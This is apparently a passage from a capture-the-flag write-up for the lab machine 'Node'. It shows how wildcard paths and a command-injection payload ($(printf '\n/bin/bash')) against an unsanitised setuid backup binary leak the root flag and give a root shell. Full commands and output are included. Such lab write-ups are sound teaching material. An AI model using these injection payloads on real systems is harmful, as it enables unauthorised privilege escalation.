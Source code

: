Knowing that we can use wildcards to obtain the base64 encoded string of the password-protected ZIP file containing the root flag.

```
tom@node:/tmp$ /usr/local/bin/backup -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 /roo*/roo*.txt
/usr/local/bin/backup -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 /roo*/roo*.txt
UEsDBAoACQAAANR9I0vyjjdALQAAACEAAAANABwAcm9vdC9yb290LnR4dFVUCQAD0BWsWeqVs2F1eAsAAQQAAAAABAAAAACUPwWtrzbMHme7L40C3ywR/RFQmDBqrsOYK83J6VdeTnh2u7ACFUdtG6z/ZyFQSwcI8o43QC0AAAAhAAAAUEsBAh4DCgAJAAAA1H0jS/KON0AtAAAAIQAAAA0AGAAAAAAAAQAAAKCBAAAAAHJvb3Qvcm9vdC50eHRVVAUAA9AVrFl1eAsAAQQAAAAABAAAAABQSwUGAAAAAAEAAQBTAAAAhAAAAAAAtom@node:/tmp$
```

### Obtaining root flag

Afterwards, all we have to do is to decode the string that we have obtained into a file and use the previously obtained password to view the root.txt file in order to obtain the root flag.

```
echo -n "UEsDBAoACQAAANR9I0vyjjdALQAAACEAAAANABwAcm9vdC9yb290LnR4dFVUCQAD0BWsWeqVs2F1eAsAAQQAAAAABAAAAACUPwWtrzbMHme7L40C3ywR/RFQmDBqrsOYK83J6VdeTnh2u7ACFUdtG6z/ZyFQSwcI8o43QC0AAAAhAAAAUEsBAh4DCgAJAAAA1H0jS/KON0AtAAAAIQAAAA0AGAAAAAAAAQAAAKCBAAAAAHJvb3Qvcm9vdC50eHRVVAUAA9AVrFl1eAsAAQQAAAAABAAAAABQSwUGAAAAAAEAAQBTAAAAhAAAAAAA" | base64 -d > root
```

## Post-exploitation
From the code analysis of the binary executable, we also realized that ```/usr/bin/zip -r -P magicword <tmp backup file> <Directory of file to backup>``` will be executed using the system() call. 
```
  sprintf(name, "/tmp/.backup_%i", v21);
  sprintf(command, "/usr/bin/zip -r -P magicword %s %s > /dev/null", name, v11);
  system(command);
```

However, we also find out that the tmp backup file name and the directory of the file to backup is not properly sanitized. This would then allow us to carry out command injection attacks. Also even though $ is blacklisted, the command is still being executed as the presence of a blacklisted character only means that the command will output a fake base64 encoded text.

As such if we were to supply the user-defined directory as ```$(printf '\n/bin/bash')```, we are essentially executing the following commands:
```
/usr/local/bin/backup -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474
/bin/bash
```

Executing the payload will then give us access to the root shell.

```
tom@node:/$ /usr/local/bin/backup -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 "$(printf '\n/bin/bash\nls')"
/usr/local/bin/backup -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 "$(printf '\n/bin/bash\nls')"

zip error: Nothing to do! (/tmp/.backup_2002270091)
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@node:/# id
id
uid=0(root) gid=1000(tom) groups=1000(tom),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),115(lpadmin),116(sambashare),1002(admin)
root@node:/# 
```
